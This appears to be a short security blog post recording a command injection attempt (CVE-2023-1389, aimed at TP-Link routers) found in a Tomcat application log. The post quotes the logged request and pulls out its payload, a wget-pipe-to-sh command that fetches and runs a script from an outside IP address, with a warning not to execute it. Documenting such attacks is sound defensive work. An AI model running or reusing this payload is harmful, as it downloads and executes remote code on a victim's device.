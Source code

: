 ```yaml
---
title: Record application being injected into an attack 2025-06-11
icon: pen-to-square
date: 2025-06-11
order: 1
author: Rain Man
category:
  - network-security
# A page can have multiple tags
tag:
  - CVE-2023-1389
# this page is sticky in article list
sticky: true
# this page will appear in starred articles
star: true
---
```


[[TOC]]

# Record application being injected into an attack 2025-06-11

## Background

Today, while checking the application logs, I accidentally discovered a suspicious log entry as follows
```text
Note: further occurrences of HTTP request parsing errors will be logged at DEBUG level. 
java.lang.IllegalArgumentException: Invalid character found in the request target [/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) ]. The valid characters are defined in RFC 7230 and RFC 3986
	at org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:484)
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:270)
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:63)
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:905)
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1743)
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:52)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1190)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:659)
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:63)
	at java.base/java.lang.Thread.run(Thread.java:1583)
```
This raised my high alert, as the request contained an obvious command injection attempt.

```shell
$(wget+http://31.59.40.187/x/tplink+-O-|sh)
```
::: danger
Please do not execute this command on your own device
:::
